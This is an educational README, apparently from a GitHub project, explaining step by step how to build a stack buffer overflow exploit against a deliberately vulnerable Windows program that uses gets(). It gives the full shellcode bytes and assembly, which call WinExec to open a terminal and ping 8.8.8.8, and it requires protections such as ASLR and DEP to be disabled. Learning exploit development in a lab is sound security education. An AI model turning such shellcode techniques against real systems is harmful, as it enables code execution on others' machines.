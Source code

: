 ## Overview
This project demonstrates a simple buffer overflow attack. The vulnerable program reads a string from the user and then prints it back. However, the function used for reading user input, ```gets()```, does not verify whether the buffer is large enough for a given input, making it vulnerable to buffer overflow. This attack works on Windows with ASLR, stack canaries and non-executable stack disabled. The project includes three files:
- ```vulnerable.c``` is the target of the attack
- ```exploit.bin``` is the input we will give to the vulnerable program to execute our code (our goal will be to open a new terminal window and ping google)
- ```getAddr.c``` is a helper program that will print the address of the function ```WinExec``` (its usefulnes will be apparent later)

The following is a detailed description of how the exploit was developed. I used OllyDbg throughout this project.

## Basic Exploit Structure
Having identified a vulnerable input in our program, we need to first analyze what the stack looks like before we enter our input. This is a diagram of the stack layout after the prolog of ```main```
```
address   value  
0019FEF0  0019FF08 - the start of the input buffer   <= ESP

...

0019FF2C  0019FF74 - saved EBP                       <= EBP  
0019FF30  00401279 - return address  
0019FF34  00000001 - argc 
0019FF38  005DCA48 - argv
```
```ESP``` is pointing to the start of the buffer (```0x0019FEF0```) and ```EBP``` is pointing to the ```saved EBP``` (```0x0019FF74```). It is worth noting that ```ESP``` will be pointing to ```argc``` (```0x0019FF34```) after returning from ```main```.

The rough idea of our exploit is to write the code into the buffer and then overwrite the ```return address``` with the address of our code. This will cause the ```ret``` instruction at the end of the function to execute our code. The buffer has 60B and we also need to overwrite the ```saved EBP``` to get to the ```return address```, so our exploit needs to be 68B long. The first 64B can be shellcode and the last 4 bytes need to be the address, where we want to redirect execution. We have to add padding if our shellcode is not long enough to exactly match this length. Overall, the exploit needs to have the following format
```
|  shellcode & padding   |  shellcode address
|          64B           |       4B
```
We should note now that our input cannot include arbitrary bytes.  CPP reference ([https://en.cppreference.com/w/c/io/gets](url)) states that ```gets``` loads input until it reaches either ```0x0A``` ('\n') or ```0x1A``` (EOF). Our exploit therefore cannot contain these bytes. Another limitation arises from our input method - we would not be able to enter ```0x08``` (backspace) and ```0x00``` if we were to write the exploit directly into the console. However, this can be overcome by writing the exploit into a binary file and then sending it into the input of the vulnerable program.

## Crafting the Exploit - Loading the Command String into Memory 

Let us now consider what the shellcode will actually look like. Our goal is to open a new terminal window and run ```ping 8.8.8.8```. This can be done by calling ```WinExec``` with ```cmd /k start cmd /k ping 8.8.8.8``` as its first argument. The second argument to ```WinExec``` will be 1 (``SW_NORMAL``). The first thing we need to do is to store the first argument as a null terminated string in memory. This can be done easily by making it the first part of our shellcode. The string itself looks like this
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38
```
Now we need to add a null byte to the end. We could just write it there in our exploit file, but that would make the exploit unusable if we were to type it directly into a console. A more universal solution is to add four bytes of padding to the end of the string and then overwrite that padding with null bytes in our code. The beginning of our exploit will therefore be 
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38
61 61 61 61
| padding |
```
This is what the stack will look like once our exploit has been loaded into memory
```
address   value
0019FEF0  636D6420 - the beginning of our buffer   <= ESP
0019FEF4  2F6B2073
0019FEF8  74617274
0019FEFC  20636D64
0019FF00  202F6B20
0019FF04  70696E67
0019FF08  20382E38
0019FF0C  2E382E38
0019FF10  61616161 - padding

...

0019FF2C  0019FF74 - saved EBP                     <= EBP
0019FF30  00401279 - return address
0019FF34  00000001 - argc 
0019FF38  005DCA48 - argv
```

We can see that we need to write ```0x00000000``` to the address ```0x0019FF10``` and we need to do this without using an instruction that would itself contain a null byte. In particular, we cannot directly write the address we are trying to write to. Fortunately, we can calculate the address using ```ESP```. ```ESP``` will be pointing to ```argc``` (```0x0019FF34```) after the program returns from ```main``` and starts executing our code, meaning that the target address can be calculated as ```ESP - 0x24```. In summary, we can write the required null bytes using the following instructions

```
shellcode     assembly
33C0          XOR EAX, EAX                   - zero out eax
894424 DC     MOV DWORD PTR[ESP - 24], EAX   - write a zero to 0x0019FF14
```

## Crafting the Exploit - Calling WinExec

Let us now consider what the stack will look like right after returning from main.

```
address   value
0019FEF0  636D6420 - the beginning of our buffer
0019FEF4  2F6B2073
0019FEF8  74617274
0019FEFC  20636D64
0019FF00  202F6B20
0019FF04  70696E67
0019FF08  20382E38
0019FF0C  2E382E38
0019FF10  61616161 - padding
0019FF14  33C08944 - first instructions of our code     <= PC
...

0019FF2C  ........ - last instructions of our code                     
0019FF30  0019FF14 - overwritten return address
0019FF34  00000001 - argc                               <= ESP
0019FF38  005DCA48 - argv
```
The next step is to push the arguments of ```WinExec``` onto the stack. The first argument we need to push is 1 and the second is the address of the command string - ```0x0019FEF0```. We use the same technique as before to avoid having to type a null byte in our exploit to store this address in ```EBX```. However, we cannot push onto the stack yet. The diagram above shows that doing so would overwrite our own code. We will solve this by subtracting a sufficiently large number from ```ESP```, thus moving the top of the stack above our code. The exact number does not matter, it only needs to be large enough for the resulting ```ESP``` to point above the beginning of the buffer. Once this is done we proceed to push the arguments we wish to pass to ```WinExec``` onto the stack.

```
shellcode        assembly
8BDC             MOV EBX,ESP - copy ESP to EBX
83EB 44          SUB EBX,44  - now EBX points to the start of the buffer, which is the address of our command string
83EC 50          SUB ESP,50  - move the stack pointer above the buffer
6A 01            PUSH 1      - push the first argument
53               PUSH EBX    - push the second argument
```

Now we need to call ```WinExec```. This function is part of ```kernel.dll```. Addresses of library functions are randomized upon being loaded into memory, but ```kernel.dll``` is included in every process running on Windows. This means that its address is only randomly assigned when the operating system starts and remains the same until shutdown. This allows us to use ```getAddr.c``` to find the address beforehand and be sure that it will be the same once we execute the vulnerable program. However, the address will be different each time we reboot our computer, so this part of the exploit needs to be manually changed for it to work. I got the address ```0x75CF4890``` during my testing. Note that the byte order of the address needs to be reversed when writing it into the exploit. This leads us to the last two instructions of our exploit.

```
shellcode        assembly
B8 75CF4890      MOV EAX,KERNEL32.WinExec - load the address of WinExec into EAX
FFD0             CALL EAX                 - call the function
```

This is the entire code:
```
33C0             XOR EAX,EAX
894424 DC        MOV DWORD PTR SS:[ESP-24],EAX
8BDC             MOV EBX,ESP
83EB 44          SUB EBX,44
83EC 50          SUB ESP,50
6A 01            PUSH 1
53               PUSH EBX
B8 9048CF75      MOV EAX,KERNEL32.WinExec
FFD0             CALL EAX
```

## Crafting the Exploit - Final Touches

We get the following exploit after adding the code to our command string.
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38 
61 61 61 61 33 C0 89 44 24 DC 8B DC 83 EB 44 83 
EC 50 6A 01 53 B8 90 48 CF 75 FF D0
```
This code is 60B long so we need to add 4B of padding followed by the address of our code (```0x0019FF14```). We once again encounter the issue of having to write a null byte. However, the bytes we actually need to write into the buffer are ```14 FF 19 00```. Notice that the null byte is the very last byte of our exploit. Fortunately, ```gets``` stores its input as a null terminated string, so it will write this problematic byte for us. The complete shellcode therefore looks like this
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38 
61 61 61 61 33 C0 89 44 24 DC 8B DC 83 EB 44 83 
EC 50 6A 01 53 B8 90 48 CF 75 FF D0 61 61 61 61
14 FF 19          |          |      |         |
|      |         WinExec address      padding
address of our code (the null byte will be written by gets)
```

Remember that it is necessary to replace the ```WinExec``` address by the address printed by ```getAddr.c```. Finally, we run the exploit using ```vulnerable < exploit.bin```.
